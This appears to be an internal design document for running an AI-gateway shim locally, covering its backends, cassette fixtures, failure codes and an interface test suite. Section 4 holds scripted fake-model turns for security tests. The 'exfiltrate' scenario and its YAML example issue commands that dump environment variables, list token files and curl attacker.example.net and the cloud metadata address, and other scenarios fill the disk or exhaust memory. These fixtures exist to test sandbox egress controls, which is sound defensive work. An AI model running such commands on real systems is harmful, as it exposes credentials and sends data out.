

# Gateway Stub (local operation of `replicant-gateway-shim`)

**Workstream:** WS-11 · **Binary:** WS-03 `replicant-gateway-shim` (Go), built from `go/cmd/replicant-gateway-shim` ·
**Local config:** [compose/config/gateway-shim/](compose/config/gateway-shim/) · **Contracts:** C-ARCH 2.0.0 §1.1,
C-RUNNER 3.0.0 (run tokens, run grants), C-IDS 2.0.0 §7 (gateway headers, CCR-03-10 budget values)

## Purpose

Run the AI gateway path on laptops and in CI with the **production shim binary** (D-11, D-20): the same
authentication (per-audience run token with embedded run grant), run policy, model allowlist, budgets, revocation,
attribution headers and usage events, with a local **upstream backend** in place of the enterprise gateway. The
brief's four modes map onto WS-03's backends: pass-through to a real provider with a developer key
(`passthrough`), record (`record`), deterministic replay from recorded fixtures for CI (`replay`), and scripted
fake responses for unit and contract tests (`script`).

This replaces WS-11's earlier Python `gateway-stub`, which re-implemented the interface and diverged from WS-03 on
mode names, error codes, the cassette schema, and token checks (R1-255). WS-03 owns the shim, its error codes, the
cassette entry schema (`replicant.gateway-cassette/v1`) and the script schema (`replicant.gateway-script/v1`)
([03 gateway.md §8](../03-agents-and-tools/gateway.md)). This document owns only what is local: the compose
service, cassette storage layout and selection, the scripts WS-11's suites use, and the recording workflow.

## Decisions summary

| Decision | Constraint / source |
|---|---|
| The local gateway is the WS-03 shim binary with `--upstream-backend passthrough\|record\|replay\|script` and its own Valkey (`gateway-state`). No replicant-owned re-implementation | D-20, XD-03-16, R1-255 |
| Model traffic path is CLI → `replicant-agentd` (loopback `127.0.0.1:7800`) → `gateway.sbx.local` (sbx-edge) → shim. The CLI carries a placeholder credential; agentd holds the `ai-gateway` token | C-ARCH 2.0.0 §1.1, WS-03 cli-invocation.md decision 7, R1-256 |
| Every check is the production one: token `aud` **equal to** `ai-gateway`, embedded grant verified against the core run-grant JWKS (`grants.replicant.localhost`), grant/run revocation list, run policy registered by the worker (`PUT /internal/v1/runs/{run_id}/policy`), `X-Replicant-Budget-Exceeded` on 402 | C-RUNNER 3.0.0 verifier obligations, C-IDS 2.0.0 §7 |
| One cassette layout for WS-03, WS-06 and WS-11: `<root>/<set>/<key>.ndjson`, one `replicant.gateway-cassette/v1` entry per line ordered by `seq`. A miss is WS-03's `599 cassette_miss` | XD-FIX-R1-264 |
| Cassette and script selection is per run, through an optional `stub` object in the run policy that only local backends honor | XD-FIX-R1-264 |
| Developer keys come from `~/.config/replicant/dev-keys.env` (WS-03), loaded as an optional `env_file`; never a compose secret or committed file | D-21 |



---

## 1. What runs locally

| Item | Value |
|---|---|
| Compose services | `gateway-shim` (alias `gateway.replicant.localhost`, port 8420) and `gateway-state` (`valkey/valkey:8.1.10-alpine`, AOF `everysec`) |
| Command | `replicant-gateway-shim --config=/etc/gateway-shim/gateway-shim.yaml --upstream-backend=${REPLICANT_GATEWAY_MODE} --replay-match=${REPLICANT_GATEWAY_REPLAY_MATCH}` (`sequence` default, `content` for prompt-regression tests; WS-03 §8.1) |
| Run-token verification | Runner JWKS and issuers of runner-local and the kind runner-api (`REPLICANT_RUN_TOKEN_JWKS_URLS`, `REPLICANT_RUN_TOKEN_ISSUERS`) |
| Run-grant verification | `REPLICANT_RUN_GRANT_JWKS_URL=http://grants.replicant.localhost:8403/.well-known/jwks.json`, `REPLICANT_RUN_GRANT_REVOCATION_URL=…/grants/revoked`, issuer `replicant-local-core` |
| Service callers | static service tokens (`gateway_service_tokens`) for replicant-worker, eval-worker, memory-service, control-plane-api; prod uses projected ServiceAccount tokens (parity.md P-26) |
| Revocation from core | control-plane-api `POST /internal/v1/revocations` on `job.cancel` / `job.takeover`; agentd `POST /v1/runs/self:close` at finalize |
| Tenant quotas | `GET http://control-plane-api:8401/internal/v1/tenants/{tenant_id}/gateway-quota` with the static `control_plane_shim_token` (caller `svc_replicant-gateway-shim`; prod: projected SA token), cached ≤ 60 s; seed step 2 gives every local tenant a quota (stack.md §5) |
| Usage | `POST http://usage-ingestor:8080/internal/v1/usage-events` (cost ledger, embeddings included with `purpose = embedding`); platform copies to `artifacts` `platform/gateway-usage/` (C-ART 2.0.0) with the `gateway-shim` S3 identity |
| Embeddings (XD-FIX-R2-057, GW-13) | memory-service calls `POST /embeddings/v1/embeddings` (`{model: voyage/voyage-code-4, input[≤128], dimensions: 1024, input_type}`) with its service token, `X-Replicant-Purpose: embedding`, `X-Replicant-Tenant-Id`, and `X-Replicant-Pipeline-Id: reembed-<uuid>` for backfills; per-tenant-day and backfill budgets enforced by the shim. In `passthrough` the upstream is Voyage (`VOYAGE_API_KEY`) or OpenAI `text-embedding-3-large` with `dimensions=1024`; in `replay` the vectors come from cassettes |
| Exec revocation feed | `REPLICANT_EXEC_REVOCATIONS_URLS` (runner-local and kind runner-api `GET /v1/revocations`), polled every 10 s (C-RUNNER 3.0.0) |
| Host port | 8420, for the contract suites (they register run policies and read `/v1/budget`) |

`/internal/v1/*` is not routed by sbx-edge, so sandboxes cannot register policies or revoke.

## 2. Backends

| Backend (`REPLICANT_GATEWAY_MODE`) | Upstream call | Writes cassettes | Determinism | Used by |
|---|---|---|---|---|
| `passthrough` | yes, dev key | no | none | walkthroughs, manual work. Budget defaults run $2, job $5 (WS-03) |
| `record` | yes | yes, to `tests/<set>/<key>.ndjson` | none | creating or refreshing fixtures (§5) |
| `replay` | never | no | full, given deterministic sandbox inputs | CI e2e, evals (`replicant-eval` tenant), `replicant dev up --gateway replay` |
| `script` | never | no | full | Runner contract suite, security suite, CLI smoke |

`X-Replicant-Stub-Fault` (per request) and script-level `fault` turns inject 429/402/5xx in any backend (WS-03).

## 3. Cassette layout and selection (resolves R1-264)

**Layout.** `<root>/<set>/<key>.ndjson`. Each line is one WS-03 `replicant.gateway-cassette/v1` entry (§8.1 of
gateway.md), in ascending `seq`. Roots (`REPLICANT_GATEWAY_CASSETTE_ROOTS`):

| Root | Mounted from | Sets | Keys |
|---|---|---|---|
| `tests` | `tests/fixtures/cassettes/` (Git LFS for files > 1 MiB) | one per e2e scenario or walkthrough, e.g. `walkthrough-ledger-api`, `e2e-04-checkout-web` | `<node_key>.c<cycle>.n<ordinal>` of the run, e.g. `implementer.c0.n1`, `qa.c1.n1` (the logical activity ID without its effect) |
| `evals` | `evals/smoke-local/cassettes/` (WS-06) | `<gtask>` (`gtask_…`) | `<agent>` (agent definition name), so WS-06's `evals/smoke-local/cassettes/<gtask>/<agent>.ndjson` is unchanged |
| `scripts` | `tests/fixtures/gateway-scripts/` | suite name, e.g. `contract-probe` | scenario name; files are `replicant.gateway-script/v1` YAML (`<key>.yaml`) |

**Selection.** The run policy that the Runner-call activity registers with the shim gains an optional object (only
honored when the backend is `record`, `replay` or `script`; production shims reject it with 400):

```json
{
  "stub": {
    "root": "tests",
    "set": "walkthrough-ledger-api",
    "key": "implementer.c0.n1"
  }
}
```

- replicant-worker fills it when `REPLICANT_GATEWAY_CASSETTE_SET` is set: `root: tests`, `set` from the variable, `key`
  from the run's logical activity ID.
- replicant-worker fills it whenever a local-mode job carries `related.eval_case` (XD-W2-06-02 correction): `root: evals`,
  `set: <golden_task_id from related.eval_case>`, `key: <agent name>`. eval-worker never registers run policies.
- The Runner contract suite registers the policy itself with `root: scripts, set: contract-probe, key: <scenario>`.

**Miss.** WS-03's `599 cassette_miss` with the computed match keys. The entrypoint maps a 599 to a non-retryable
`AgentExitedNonZero`, and eval cases record `harness_error: cassette_miss` (WS-06).

## 4. Scripts used by WS-11's suites

Scripts follow WS-03's `replicant.gateway-script/v1` (an ordered list of turns). They drive the **real** CLI and
entrypoint through tool calls, so the contract and security suites exercise the production sandbox path under a
"fully compromised model" assumption (D-21). Files under `tests/fixtures/gateway-scripts/contract-probe/`:

| Scenario (`key`) | Turns | Used by |
|---|---|---|
| `succeed` | `Bash: git rev-parse HEAD > /replicant/out/head.txt` → text "Done." | RC-RUN-01, RC-RUN-02, RC-RUN-05, RC-RUN-08 |
| `exit_nonzero` | `Bash: exit 3` → fault 500 ×5 (CLI gives up) | RC-RUN-07 |
| `disk_exceeded` | `Bash: dd if=/dev/zero of=/workspace/fill.bin bs=1M count=999999` | RC-RUN-14 |
| `oom` | `Bash: python3 -c "b=bytearray(1<<34)"` | RC-RUN-15 |
| `long_running` | `Bash: sleep 3600` | RC-RUN-06, RC-RUN-16, RC-CAN-02 |
| `steer_ack` | `Bash: sleep 60` → text echoing the last user turn | RC-MSG-01 |
| `budget` | turns with `usage` above the policy budget | RC-RUN-18 (402 + `X-Replicant-Budget-Exceeded: run`) |
| `exfiltrate` | `Bash: env; ls -la /run/replicant/tokens; curl -m5 https://attacker.example.net; curl -m5 http://169.254.169.254/; getent hosts example.com` | SEC-EGRESS-*, SEC-CUSTODY-01 |

Example (`exfiltrate.yaml`):

```yaml
schema: replicant.gateway-script/v1
name: contract-probe-exfiltrate
protocol: anthropic_messages
turns:
  - expect: {model: anthropic/claude-haiku-5-5}
    respond:
      tool_use: {name: Bash, input: {command: "env | sort > /replicant/out/env.txt; ls -la /run/replicant/tokens > /replicant/out/tokens.txt 2>&1; curl -sS -m 5 https://attacker.example.net/x > /replicant/out/curl.txt 2>&1; getent hosts example.com >> /replicant/out/curl.txt 2>&1; echo done"}}
      usage: {input_tokens: 1200, output_tokens: 60}
  - respond:
      text: "Scenario complete."
```

## 5. Recording workflow

1. `replicant dev gateway mode record` (recreates `gateway-shim` with `REPLICANT_GATEWAY_MODE=record`) and
   `REPLICANT_GATEWAY_CASSETTE_SET=<set>` (recreates replicant-worker).
2. Run the job or eval case with real models (dev key).
3. `replicant dev gateway cassettes ls --set <set>`; review; commit `tests/fixtures/cassettes/<set>/`.
4. CI validates every entry against WS-03's cassette schema, runs `gitleaks` over the fixtures directory, and
   replays the suite with `--upstream-backend=replay`. Smoke-local cassettes are re-recorded with WS-06's
   `replicant evals record --task …`.

Determinism of replays depends on deterministic sandboxes: the entrypoint's `--deterministic` mode fixes
`GIT_AUTHOR_DATE`/`GIT_COMMITTER_DATE` (XD-11-09), mirrors run offline in replay CI (`ATHENS_NETWORK_MODE=offline`,
Verdaccio uplinks disabled), and `sequence` matching tolerates volatile prompt content (WS-03 §8.1).

## 6. Failure modes (codes are WS-03's)

| Failure | Shim response | Run outcome |
|---|---|---|
| Token invalid, wrong `aud`, grant invalid or revoked | 401 `unauthenticated` (agentd refreshes once) / 401 `run_closed` | `AgentExitedNonZero` or `SecurityViolation` per WS-03 mapping |
| Run policy missing / mismatched | 403 `run_policy_missing` / `run_policy_mismatch` | worker bug; `AgentExitedNonZero` |
| Model not allowed | 403 `model_not_allowed` | non-retryable |
| Budget exhausted | 402 with `X-Replicant-Budget-Exceeded: run\|job\|tenant_period\|tenant_embeddings_day\|pipeline\|account\|platform` (C-IDS 2.0.0 §7) | `GatewayBudgetExceeded`; `tenant_period` and `platform` follow WS-03's `TenantBudgetExhausted` path (gateway.md §9) |
| Tenant has no quota | 402 `tenant_quota_unset` (control-plane-api `GET /internal/v1/tenants/{tenant_id}/gateway-quota` returned 404; WS-03 gateway.md §6.1) | same path as `tenant_period`; locally it means seed step 2 did not run |
| Replicant rate limit | 429 with `X-Replicant-Limit` | agentd retries |
| Dev key missing in passthrough | 503 | `GatewayUnavailable`; `replicant dev doctor` suggests `--gateway replay` |
| Replay miss | 599 `cassette_miss` | non-retryable; test prints the keys |
| usage-ingestor down | events buffered and retried (WS-03 §9) | none |

## 7. Gateway interface suite (runs against the local shim and the staging shim)

| ID | Case | Expected |
|---|---|---|
| GW-01 | valid ai-gateway token + grant + registered policy, non-streaming | 200; usage event with `run_id`, `job_id`, `tenant_id`, `acting_for` |
| GW-02 | streaming | SSE in provider order; final usage present |
| GW-03 | token with `aud` `context-mcp` (cross-audience replay, WS-09 RT-03) | 401 |
| GW-04 | token whose embedded grant is signed by an unknown key, or whose claims exceed the grant | 401 |
| GW-05 | grant `job_id` added to `/grants/revoked` | 401 within one revocation poll (≤ 60 s) |
| GW-06 | model outside the policy | 403 `model_not_allowed` |
| GW-07 | spend reaches run budget | 402, `X-Replicant-Budget-Exceeded: run` |
| GW-08 | job budget across two runs | 402, `X-Replicant-Budget-Exceeded: job` |
| GW-09 | upstream 429 with `retry-after` | passed through without `X-Replicant-Limit` |
| GW-10 | service token with `X-Replicant-Job-Id` (in-worker call, embeddings) | 200, charged to `fgw:job:<job_id>:worker_spent` |
| GW-11 | `POST /v1/runs/self:close` then a request | 401 `run_closed` |
| GW-12 | `stub` object in a policy sent to a production-mode shim | 400 |
| GW-13 | memory-service embeddings call with `X-Replicant-Purpose: embedding` | 200, 1,024-dim vectors; usage event `purpose = embedding`; tenant day counter increments; over `budgets.embeddings.perTenantDayUsd` → 402 `X-Replicant-Budget-Exceeded: tenant_embeddings_day` (C-IDS 2.0.0 §7, CCR-03-10) |
| GW-14 | ai-gateway token of a run listed by `GET /v1/revocations` | 401 within one poll (≤ 10 s) |

## Open questions

| Question | Who decides | Options | Recommendation |
|---|---|---|---|
| `stub` field in the run policy versus a header from agentd | WS-03 | policy field / `X-Replicant-Stub-Set` header | Policy field: the sandbox cannot choose its own cassette |
| Cassette storage beyond Git LFS | WS-11, WS-10 | LFS / S3 fixtures bucket | LFS until fixtures exceed 2 GB |

## Risks

- Replay determinism depends on deterministic sandboxes; CLI upgrades change request shapes, so cassettes are
  re-recorded on every CLI image digest change in a bundle.
- The `stub` selector must never be honored by a production shim; GW-12 enforces it in CI.

## Interfaces

- **Consumed:** C-RUNNER 3.0.0 (run tokens, run grants, revocation), C-IDS 2.0.0 §7 (headers), C-ARCH 2.0.0 §1.1
  (shim, agentd), WS-03 gateway.md §4–§8 (shim, cassette and script formats), WS-06 eval-harness.md §10 (smoke-local
  cassettes).
- **Provided:** local compose services `gateway-shim`/`gateway-state`, the cassette storage layout and run-policy
  `stub` selector (XD-FIX-R1-264), the contract-probe scripts, the GW interface suite.
